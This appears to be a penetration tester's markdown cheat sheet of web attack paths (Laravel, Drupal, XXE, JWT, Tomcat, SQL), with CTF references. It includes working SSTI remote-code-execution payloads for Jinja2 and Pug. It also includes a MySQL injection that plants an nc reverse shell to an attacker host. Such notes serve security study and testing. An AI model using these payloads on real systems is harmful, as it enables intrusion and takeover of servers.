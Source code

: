 ## If we have a node.js app and it uses pug js and flat js we can do an AST prototype pollution
This attack can be performed else where too, just that we know too little about it for now, to make it work else where, more on this in here https://blog.p6.is/AST-Injection/

## If we have a laravel app
### If the version is through 5.5.40 and 5.6.x through 5.6.29
If we have its base64 encoded APP_KEY then we can use this https://github.com/AlienX2001/better-poc-for-CVE-2018-15133 to get an rce on the machine

## In case of an adminer instance
https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

## for drupal CMS
### If we engage with drupal CMS including 8.5 prior to 8.5.1, 7.x prior to 7.58 and all version of Drupal 6.
Then we can use drupalgeddon2.0 exploit

## If via burp or from the page source analysis we see that the webapp is working with xml
Then we can check for xxe, more on that here https://portswigger.net/web-security/xxe and https://www.synack.com/blog/a-deep-dive-into-xxe-injection/

## If we are working with JWT
If we somehow get a hold of the algorithm key, if its using HS256/RS256 algorithm then we can craft our own jwt signed with the leaked key to get access
If we see that the key is getting imported from a remote location and if we can somehow change that parameter, then we can put our own server in there and then sign the jwts from our own server's key and still get access to sensitive info

## If we manage to get hold of the aws dynamoDB js shell
We can use the templates and extract information about the DB and use those in the aws cli to get code exec

## In support portals if we get email addresses to contact to
Then we might be able to leverage that to get private emails as was with the case with HTB's delivery box, can refer writeups of the same to know more

## We can also find for SSTI
1. For python webapps(flask/jinja2), we can put in `{{request.application.__globals__.__builtins__.__import__('os').popen('CMD').read()}}` to get RCE

2. For noedjs webapps(pugjs), we can put in `#{global.process.mainModule.constructor._load("child_process").exec("CMD+>+static/css/main.css",(err,stdout,stderr)=>{(console.log(stdout))})}` to get RCE, here we redirect the output to a file which we can access via the webapp because the output of the execution will get reflected in the console, which we do not have access to, so it is better to redirect the output to a file which we can reload to get our info

## If we are running an apache tomcat 
### If they are any of the following Apache Tomcat 10.x < 10.0.0-M5, Apache Tomcat 9.x < 9.0.35, Apache Tomcat 8.x < 8.5.55. Apache Tomcat 7.x < 7.0.104
Then we can follow through this blog to get RCE https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and we can use ysoserial to get our serialized payload. To transfer non text stuff from terminal to burp, its best to print out non text's base64 string, copy that to burp and then decode, that way there will be no corruption of bits
#### PS: php also has a deserialization bug like java applets

## If we have a wp page
Then we can use wpscan to scan through the plugins and other stuff. Usually wp plugins tend to be vulnerable since they are 3rd party made

## For getting OS cmd shell from sql
If we have MSSQL, with right perms we can use xp_cmdshell to get os cmd exec
If we have Mysql, with right perms we can use the following payload to get os cmd exe `update settings set value='mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f' where name='path_php_binary';-- -`, we exploited this in some version of cacti, which can be found here https://github.com/Cacti/cacti/issues/3622, but this might be exploitable in other environments

## We can also use the --eval flag of burp to dynamically change the payload by python scripts, and directly ysing the param vars as vars in the python oneliner
## If we have the manager-script role with a user in apache tomcat then we can upload a war file and get a reverse shell


## Some misc notes
1. Once we also got an instance where, in a POST request, we could double submit a parameter to the server by adding the parameter in the cookies as well as the data of the POST request
2. svn is also very much like git cli
